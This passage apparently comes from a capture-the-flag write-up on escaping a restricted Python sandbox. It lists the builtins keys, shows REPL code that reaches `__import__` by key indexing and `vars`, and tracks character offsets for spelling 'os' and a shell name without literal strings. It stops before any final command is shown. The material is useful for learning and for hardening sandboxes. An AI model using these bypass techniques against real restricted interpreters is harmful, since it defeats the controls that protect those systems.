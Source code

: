 ```python
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'aiter', 'len', 'locals', 'max', 'min', 'next', 'anext', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'BaseExceptionGroup', 'Exception', 'GeneratorExit', 'KeyboardInterrupt', 'SystemExit', 'ArithmeticError', 'AssertionError', 'AttributeError', 'BufferError', 'EOFError', 'ImportError', 'LookupError', 'MemoryError', 'NameError', 'OSError', 'ReferenceError', 'RuntimeError', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SystemError', 'TypeError', 'ValueError', 'Warning', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'BytesWarning', 'DeprecationWarning', 'EncodingWarning', 'FutureWarning', 'ImportWarning', 'PendingDeprecationWarning', 'ResourceWarning', 'RuntimeWarning', 'SyntaxWarning', 'UnicodeWarning', 'UserWarning', 'BlockingIOError', 'ChildProcessError', 'ConnectionError', 'FileExistsError', 'FileNotFoundError', 'InterruptedError', 'IsADirectoryError', 'NotADirectoryError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'IndentationError', 'IndexError', 'KeyError', 'ModuleNotFoundError', 'NotImplementedError', 'RecursionError', 'UnboundLocalError', 'UnicodeError', 'BrokenPipeError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'TabError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeTranslateError', 'ExceptionGroup', 'EnvironmentError', 'IOError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help', '_'])
```

This will come in handy later as well, so I'm showing the full output. Here, we see that `__import__` is found at index 6. Thus, we can find it using the specific key and the `vars` function:

```python
(Python 3.11)
>>> [k for k in y(x['__builtins__'])][6]
'__import__'
>>> y(x[[k for k in x][6]])[[k for k in y(x['__builtins__'])][6]]
<built-in function __import__>
```

Awesome, we can now access `__import__`. Next, let's figure out how to get the string `'os'`. We can piece together `os` by indexing into the key names and splicing them together. I ended up creating a text document keeping track of all of these:

```
6 = __import__

11 = bin
7 = abs
25 = hash

11[0] = b
7[0] = a
7[2] = s
25[0] = h

23 = globals
23[2] = o
23[6] = s

7 = abs
9 = any
7[2] = s
9[2] = y
7[2] = s

6 = __import__
6[7] = t

0 = __name__
```